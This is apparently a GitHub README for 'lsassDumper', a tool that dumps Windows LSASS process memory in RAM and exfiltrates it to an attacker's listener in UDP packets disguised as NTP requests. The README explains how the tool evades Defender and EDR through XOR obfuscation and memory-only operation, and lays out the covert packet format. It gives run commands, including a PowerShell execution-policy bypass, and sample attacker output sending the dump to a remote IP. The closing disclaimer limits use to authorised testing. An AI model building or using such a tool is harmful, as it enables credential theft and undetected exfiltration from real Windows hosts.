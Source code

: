 # **lsassDumper**
> ** Windows LSASS Memory Dumper & Exfiltration via UDP NTP Packets**  

## **🔍 Overview**
`lsassDumper` is an advanced tool designed to **stealthily dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**.  
Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.

The tool consists of:
- A **dumper** `memdump.c` to **extract LSASS memory** in RAM.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.  

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode|    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Root Delay (32-bit)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Root Dispersion (32-bit)                    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Reference ID (32-bit)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                Reference Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Originate Timestamp (64-bit)                 |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Receive Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Transmit Timestamp (64-bit)                  | <-- Exfiltrated Data
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we **embed data in this field**.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the disguise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have vscode or else configured
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

### **🔹 Linux (Bash)**
 -- If you have wingw configured
1. Open **Terminal** and run:
   ```bash
   sudo apt update && sudo apt upgrade
   pip install -r requirements.txt
   ./run.sh
   ```


---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**  
Use this tool **only on systems you own or have explicit permission to test**.

---

